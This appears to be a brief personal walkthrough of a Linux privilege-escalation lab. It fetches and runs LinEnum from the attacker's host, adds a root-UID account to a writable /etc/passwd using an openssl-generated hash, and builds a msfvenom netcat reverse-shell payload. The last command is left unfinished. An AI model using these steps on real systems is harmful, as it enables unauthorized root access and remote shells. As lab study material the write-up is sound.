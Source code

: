 # COMMON LINUX PRIVESC

```
export IP=10.10.8.224
```

```
ssh user3@$IP
password
```

```
cat /etc/passwd 
cat /etc/shell
cat /etc/crontab
```

## LinEnum

In my machine:
```
python3 -m http.server 1234
```
In the taget machine:
```
wget http://MY-IP:1234/LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh | tee linenum.out
```

change to user7:
```
openssl passwd -1 -salt new 123
```
```
su user7
password

nano /etc/passwd

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
su new
123
```

And ta-da, superuser mode!

```
sudo -l
```

```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

```
echo "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

